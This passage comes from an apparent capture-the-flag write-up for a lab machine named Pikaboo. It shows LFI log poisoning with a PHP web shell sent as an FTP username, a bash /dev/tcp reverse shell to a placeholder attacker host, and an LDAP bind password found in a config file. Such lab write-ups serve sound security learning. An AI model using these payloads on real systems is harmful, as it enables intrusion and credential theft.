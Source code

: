 Among those URLs, `admin_staging/index.php` is interesting as it's an admin page. Additionally, we see the parameter `page` in the URL, suggesting we might have LFI. Also in `server-status`, we see that we can view `/var/log/vsftpd.log`. With a log file being included, we can try poisoning the log file to get code execution.

When logging into FTP, we give a username. Searching for the username in the log file, we see that it's reflected on the page. We can try putting some PHP code in place of the username.

```sh
$ ftp 10.10.10.249;
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:user): <?php system($_GET["cmd"]);?>
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed.
```

We can then visit the page, include the log, and provide a command for the `cmd` parameter to get code execution. I used the following URL encoded payload. (`/usr/bin/bash` instead of `/bin/bash`, checked with `which bash`)

```sh
/usr/bin/bash -c "/usr/bin/bash -i >& /dev/tcp/ATK_IP/1337 0>&1"
```

We should then have a shell as `www-data`.

Checking listening ports, we see port 389.

```sh
www-data@pikaboo:/var/www/html$ ss -tlnp
State   Recv-Q  Send-Q   Local Address:Port   Peer Address:Port
LISTEN  0       128          127.0.0.1:389         0.0.0.0:*
LISTEN  0       128            0.0.0.0:80          0.0.0.0:*     users:(("nginx",pid=533,fd=6),("nginx",pid=531,fd=6))
LISTEN  0       128          127.0.0.1:81          0.0.0.0:*
LISTEN  0       128            0.0.0.0:22          0.0.0.0:*
LISTEN  0       128               [::]:80             [::]:*     users:(("nginx",pid=533,fd=7),("nginx",pid=531,fd=7))
LISTEN  0       32                   *:21                *:*
LISTEN  0       128               [::]:22             [::]:*

www-data@pikaboo:/var/www/html$ ps aux | grep -i ldap
www-data 16260  0.0  0.0   6276   888 pts/0    S+   08:50   0:00 grep -i ldap
```

Port 389 is the default port for LDAP so we checked running services and confirmed that we have LDAP running. Following [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-ldap#ldapsearch), we need to find some information to query LDAP.

Looking around in `/opt`, we have LDAP configurations in `/opt/pokeapi/config/settings.py`

```python
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
    },
    "default": {
        "ENGINE": "django.db.backends.sqlite3",
        "NAME": "/opt/pokeapi/db.sqlite3",
    }
}
```
